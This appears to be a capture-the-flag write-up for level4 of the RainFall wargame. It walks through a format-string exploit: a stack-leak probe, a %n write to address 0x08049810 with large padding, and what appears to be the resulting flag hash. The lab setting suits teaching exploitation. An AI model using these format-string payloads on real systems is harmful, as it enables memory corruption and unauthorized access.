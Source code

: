 Ok so this seems pretty similar to the last one

The value address this time is 0x08049810

```python
import struct
struct.pack('<I', 0x08049810)
b'\x10\x98\x04\x08'
```

First lets get back our string arg address index

level4@RainFall:~$ python -c 'print ("aaaa " + "%x " * 15)' | ./level4

aaaa b7ff26b0 bffff794 b7fd0ff4 0 0 bffff758 804848d bffff550 200 b7fd1ac0 b7ff37d0 61616161 20782520 25207825 78252078

Ok so our argument is at the twelth index, cook the same exploit as before

python -c 'print("\x10\x98\x04\x08" +  "%12$n")'

But there is a ton of chars to print this time, 16930116, use the padding strat

python -c 'print("\x10\x98\x04\x08" +  "%16930112d%12$n")'


0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a